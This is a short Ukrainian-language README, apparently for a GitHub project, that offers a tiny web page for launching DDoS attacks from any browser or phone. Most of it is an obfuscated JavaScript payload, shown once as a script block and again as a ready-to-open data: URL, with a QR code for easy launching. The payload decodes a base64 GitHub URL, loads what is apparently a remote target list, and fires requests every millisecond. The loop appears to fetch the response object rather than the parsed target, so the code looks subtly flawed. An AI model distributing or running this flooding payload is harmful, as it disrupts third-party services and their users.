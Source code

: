 # Lite

Найменша сторінка для дудосу, можна дудосити навіть з кнопочного телефону!

Сторінка написана на XHTML

---

## Ддос на HTML5
```html
<script>let f=fetch;f(atob('aHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL3h6eWFsbHpqeC0yMzEvaW91empsYS02MTIvbWFpbi80MC5qc29u')).then(async r=>{let p=JSON.parse(await r.text())[0].page,s=setTimeout;s(async function a(){await f(r);s(a,1)},1)})</script>
```

### Відскануй QR-Код щоб випробувати

<img src="../public/qrcode-html5-ddos.png" width="150" alt="QR-Код" title="Відскануй мене">

### Або перейди по цьому посиланню

`data:text/html,%3Cscript%3Elet%20f=fetch;f(atob('aHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL3h6eWFsbHpqeC0yMzEvaW91empsYS02MTIvbWFpbi80MC5qc29u')).then(async%20r=%3E%7Blet%20p=JSON.parse(await%20r.text())%5B0%5D.page,s=setTimeout;s(async%20function%20a()%7Bawait%20f(r);s(a,1)%7D,1)%7D)%3C/script%3E`
